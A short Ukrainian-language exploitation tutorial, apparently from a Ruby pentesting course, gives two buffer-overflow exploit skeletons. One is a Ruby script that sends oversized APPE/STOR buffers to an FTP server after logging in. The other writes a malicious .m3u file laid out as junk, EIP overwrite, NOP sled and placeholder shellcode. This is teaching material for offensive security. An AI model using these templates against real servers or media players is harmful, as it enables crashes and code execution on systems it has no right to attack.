 # Модуль 0x5 | Експлуатаційне Кунг-фу

## Основа експлойту

Мати під рукою скелетон експлойту є дуже правильною ідеєю, оскільки такий скелетон можна в будь-який момент швидко застосувати під час атаки.

### Network base 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
To execute it
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Notice that some services has to receive from it and some does not.

### File base 

Creating a simple exploit file 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}"
```
To execute it
```
ruby m3u_exploit.rb song1.m3u
```

<br><br><br>
---
